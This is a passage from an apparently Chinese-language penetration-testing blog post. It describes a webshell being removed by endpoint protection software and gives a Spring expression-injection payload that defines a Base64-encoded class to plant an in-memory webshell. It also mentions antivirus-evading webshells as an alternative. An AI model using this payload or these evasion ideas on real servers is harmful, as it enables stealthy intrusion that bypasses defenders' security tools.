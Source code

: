 但是webshell写入几秒后就被删了，服务器安装了终端防护软件，既有360安全卫士，又有奇安信天擎。

![图片](assets/1706513706-39b594907d4a5e53c88f111a55dd8813.png)

遇到这种情况能想到的解决办法基本上只能写免杀webshell了，要不就直接注入内存webshell，不过因为不是攻防项目，当时就没有继续折腾。最近突然想起这个漏洞，决定本地搭建模拟环境继续折腾一下。

正常情况下，通过下面的方法就可以成功写入内存webshell。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString('yv66v...'), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-581eaac5d5ba5a7562e91e95fc5f8b2e.png)
